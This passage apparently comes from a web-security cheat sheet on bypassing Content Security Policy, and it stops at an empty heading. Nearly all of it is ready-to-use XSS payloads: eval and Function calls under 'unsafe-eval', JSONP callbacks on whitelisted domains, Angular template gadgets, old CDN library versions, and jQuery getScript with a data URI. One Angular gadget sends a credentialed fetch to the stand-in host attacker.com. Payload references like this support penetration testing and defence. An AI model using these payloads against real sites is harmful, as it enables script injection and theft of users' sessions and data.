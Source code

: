 #### Exploiting 'unsafe-eval'

```javascript
// When CSP includes: script-src 'unsafe-eval'
eval("alert(document.domain)");
setTimeout("alert(document.domain)");
setInterval("alert(document.domain)");
new Function("alert(document.domain)")();
```

### Bypass via Whitelisted Domains

#### JSONP Endpoints

```html
<!-- When trusted.com is in script-src -->
<script src="https://trusted.com/jsonp?callback=alert(document.domain)//"></script>
```

#### Script Gadgets

{% raw %}
```html
<!-- When trusted.com hosts Angular -->
<script src="https://trusted.com/angular.js"></script>
<div ng-app>{{ constructor.constructor('alert(document.domain)')() }}</div>
```
{% endraw %}

#### CDN Abuse

```html
<!-- When cdnjs.cloudflare.com is in script-src -->
<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.8/angular.js"></script>
<div ng-app ng-csp>
{% raw %}
{{ x = $on.curry.call().eval('fetch("https://attacker.com", {credentials: "include"})') }}
{% endraw %}
</div>
```

#### Vulnerable Libraries

```html
<!-- When jQuery is allowed from a CDN -->
<script src="https://code.jquery.com/jquery-3.1.1.min.js"></script>
<script>
$.getScript("data:text/javascript,alert(document.domain)")
</script>
```

### DOM-Based CSP Bypasses

#### JSONP via DOM
